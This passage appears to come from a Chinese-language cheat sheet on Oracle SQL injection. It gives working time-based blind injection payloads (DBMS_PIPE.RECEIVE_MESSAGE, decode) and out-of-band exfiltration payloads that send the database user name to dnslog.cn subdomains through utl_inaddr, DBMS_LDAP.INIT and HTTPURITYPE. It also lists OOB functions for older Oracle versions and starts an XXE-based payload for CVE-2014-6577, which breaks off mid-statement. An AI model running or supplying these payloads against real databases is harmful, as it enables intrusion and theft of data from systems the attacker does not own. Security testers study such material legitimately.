 select 1 from dual where DBMS\_PIPE.RECEIVE\_MESSAGE('asd', REPLACE((SELECT substr(user, 1, 1) FROM dual), 'S', 10))=1;

SQL

  

**还可以配合decode**

**select** **decode****(****substr****(user,1,1),'S',****dbms\_pipe****.****receive\_message****('RDS',10),0)** **from** **dual****;**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**3.4. 带外盲注**

**类似于MySQL load\_file的带外盲注。OOB 都需要发起网络请求的权限，有限制。  
**

**utl\_http.request    需要出外网HTTP**

**utl\_inaddr.get\_host\_address    dns解析带外**

**select utl\_inaddr.get\_host\_address((select user from dual)||'.cbb1ya.dnslog.cn') from dual**

**SYS.DBMS\_LDAP.INIT 这个函数在 10g/11g 中是 public 权限.**

**SELECT DBMS\_LDAP.INIT((select user from dual)||'.24wypw.dnslog.cn',80) FROM DUAL;**

**HTTPURITYPE**

**SELECT HTTPURITYPE((select user from dual)||'.24wypw.dnslog.cn').GETCLOB() FROM DUAL;**

  

  

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**其他**

**如果 Oracle 版本 <= 10g，可以尝试以下函数：  
**

**1\. UTL\_INADDR.GET\_HOST\_ADDRESS**

**2\. UTL\_HTTP.REQUEST**

**3\. HTTP\_URITYPE.GETCLOB**

**4\. DBMS\_LDAP.INIT and UTL\_TCP**

  

**Oracle XXE (CVE-2014-6577)**

**说是xxe，实际上应该算是利用xml的加载外部文档来进行数据带外。支持http和ftp**

**1\. http**

**select 1 from dual where 1=(select extractvalue(xmltype('<?xml** 

**version="1.0" encoding="UTF-8"?><!DOCTYPE root \[ <!ENTITY % remote** 
